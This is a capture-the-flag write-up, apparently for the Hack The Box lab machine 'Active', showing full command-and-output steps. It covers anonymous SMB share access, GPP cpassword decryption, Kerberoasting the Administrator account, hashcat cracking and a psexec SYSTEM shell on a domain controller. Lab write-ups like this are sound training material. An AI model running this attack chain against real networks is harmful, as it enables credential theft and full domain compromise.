

# Active

> Active is an easy windows machine, which features two very prevalent techniques to gain privileges within an Active Directory environment.
> 

---

# Summary

We start enumeration from an unauthenticated standpoint, we find that null authentication is enabled and that we have the permissions to read a share called `Replication`.

Inside that share, we find a very interesting file called `Groups.xml` which is known to be used when **Group Policy Preferences (GPP)** is configured.

The file contains an encrypted `cpassword` attribute for user `svc_tgs`, which can be decrypted using `gpp-decrypt`.

After we gain access in Active Directory through `svc_tgs` user, some bloodhound enumeration shows that `Administrator` is kerberoastable, after requesting the `TGS` for administrator we crack the password using `hashcat` and get `NT AUTHORITY/SYSTEM` access on the Domain Controller using `psexec` to retrieve the flags.

---

# Initial Foothold

## Enumerating Shares

SMB Null Auth was enabled on the machine, so we will start with enumerating the available shares and see what shares can we read

```bash
└─$ netexec smb $(cat ip) -u "" -p "" --shares                                             
SMB         10.129.100.141  445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False) 
SMB         10.129.100.141  445    DC               [+] active.htb\: 
SMB         10.129.100.141  445    DC               [*] Enumerated shares
SMB         10.129.100.141  445    DC               Share           Permissions     Remark
SMB         10.129.100.141  445    DC               -----           -----------     ------
SMB         10.129.100.141  445    DC               ADMIN$                          Remote Admin
SMB         10.129.100.141  445    DC               C$                              Default share
SMB         10.129.100.141  445    DC               IPC$                            Remote IPC
SMB         10.129.100.141  445    DC               NETLOGON                        Logon server share 
SMB         10.129.100.141  445    DC               Replication     READ            
SMB         10.129.100.141  445    DC               SYSVOL                          Logon server share 
SMB         10.129.100.141  445    DC               Users
```

We found a share called `Replication`, which we have `READ` permission over.

## Enumerating the share

NetExec has a module called `spider_plus` which will go over the share and enumerate all the files that our user can read, and list these files in JSON format.

Here, we specify the `-M` for telling NetExec that we want to use the `spider_plus` module, and that we want to run it on the `Replication` share.

```bash
└─$ netexec smb $(cat ip) -u "" -p "" -M spider_plus --share Replication
SMB         10.129.100.141  445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False) 
SMB         10.129.100.141  445    DC               [+] active.htb\: 
SPIDER_PLUS 10.129.100.141  445    DC               [*] Started module spidering_plus with the following options:
SPIDER_PLUS 10.129.100.141  445    DC               [*]  DOWNLOAD_FLAG: False
SPIDER_PLUS 10.129.100.141  445    DC               [*]     STATS_FLAG: True
SPIDER_PLUS 10.129.100.141  445    DC               [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS 10.129.100.141  445    DC               [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS 10.129.100.141  445    DC               [*]  MAX_FILE_SIZE: 50 KB
SPIDER_PLUS 10.129.100.141  445    DC               [*]  OUTPUT_FOLDER: /home/kali/.nxc/modules/nxc_spider_plus
SMB         10.129.100.141  445    DC               [*] Enumerated shares
SMB         10.129.100.141  445    DC               Share           Permissions     Remark
SMB         10.129.100.141  445    DC               -----           -----------     ------
SMB         10.129.100.141  445    DC               ADMIN$                          Remote Admin
SMB         10.129.100.141  445    DC               C$                              Default share
SMB         10.129.100.141  445    DC               IPC$                            Remote IPC
SMB         10.129.100.141  445    DC               NETLOGON                        Logon server share 
SMB         10.129.100.141  445    DC               Replication     READ            
SMB         10.129.100.141  445    DC               SYSVOL                          Logon server share 
SMB         10.129.100.141  445    DC               Users                           
SPIDER_PLUS 10.129.100.141  445    DC               [+] Saved share-file metadata to "/home/kali/.nxc/modules/nxc_spider_plus/10.129.100.141.json".
SPIDER_PLUS 10.129.100.141  445    DC               [*] SMB Shares:           7 (ADMIN$, C$, IPC$, NETLOGON, Replication, SYSVOL, Users)
SPIDER_PLUS 10.129.100.141  445    DC               [*] SMB Readable Shares:  1 (Replication)
SPIDER_PLUS 10.129.100.141  445    DC               [*] Total folders found:  22
SPIDER_PLUS 10.129.100.141  445    DC               [*] Total files found:    7
SPIDER_PLUS 10.129.100.141  445    DC               [*] File size average:    1.16 KB
SPIDER_PLUS 10.129.100.141  445    DC               [*] File size min:        22 B
SPIDER_PLUS 10.129.100.141  445    DC               [*] File size max:        3.63 KB
```

As we see from this line

```bash
Saved share-file metadata to "/home/kali/.nxc/modules/nxc_spider_plus/10.129.100.141.json".
```

the files was saved under `/home/kali/.nxc/modules/nxc_spider_plus/10.129.100.141.json`.

Upon reading that file, we notice that the share has a very interesting file called `Groups.xml`.

```bash
<SNIP>
"active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml": {
            "atime_epoch": "2018-07-21 06:37:44",
            "ctime_epoch": "2018-07-21 06:37:44",
            "mtime_epoch": "2018-07-21 06:38:11",
            "size": "533 B"
        }
<SNIP>
```

This file means that Group Policy Preferences (GPP) is configured.

### What is Group Policy Preferences (GPP)?

GPP was introduced with the release of Server 2008 and enhance Group Policy by allowing administrators to configure additional settings beyond standard policy options.
When an admin used **Group Policy Preferences (GPP)** to set a local user or group password, the password was stored in **Groups.xml inside a tag called `cpassword`.**

The `cpassword` is encrypted, but Microsoft shared the AES key used to encrypt the password in their [documentation](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN). Which means anyone can decrypt the password.

### Downloading the file & Decrypting the password

```bash
└─$ smbclient -N //$(cat ip)/Replication
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> cd active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/
smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\> get Groups.xml
getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml of size 533 as Groups.xml (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
```

Upon reading the file, we can see the `cpassword` for `svc_tgs` user.

```xml
<SNIP>
name="active.htb\SVC_TGS" i
<SNIP>
cpassword="ed<REDACTED>mQ"
<SNIP>
```

Decrypting the password using `gpp-decrypt`, not we have a set of credentials `svc_tgs:GP<REDACTED>18`.

```bash
└─$ gpp-decrypt ed<REDACTED>mQ
GP<REDACTED>18
```

# Privilege Escalation

## Gathering BloodHound Data

Using the foothold to enumerate AD using bloodhound.

```bash
└─$ sudo bloodhound-python -u 'svc_tgs' -p 'GP<REDACTED>18' -ns $(cat ip) -d active.htb -c all
```

After uploading data to bloodhound, we found that the administrator account is kerberoastable



## Kerberoasting `Administrator` using `GetUserSPNs`

```bash
└─$ impacket-GetUserSPNs -dc-ip $(cat ip) active.htb/svc_tgs -request-user administrator -outputfile administrator_tgs
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Password:
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2025-09-01 13:47:21.242545             

[-] CCache file is not found. Skipping...
```

## Cracking the Hash using Hashcat

```bash
└─$ hashcat -a 0 -m 13100 administrator_tgs /usr/share/wordlists/rockyou.txt

<SNIP>
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$418a<REDACTED>1bbb:Ti<REDACTED>68
<SNIP>
```

We got the password `Ti<REDACTED>68`

# Gaining Access

```bash
└─$ impacket-psexec active.htb/administrator:'Ti<REDACTED>68'@$(cat ip)  
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.129.100.141.....
[*] Found writable share ADMIN$
[*] Uploading file CZBuECdy.exe
[*] Opening SVCManager on 10.129.100.141.....
[*] Creating service LNnx on 10.129.100.141.....
[*] Starting service LNnx.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```
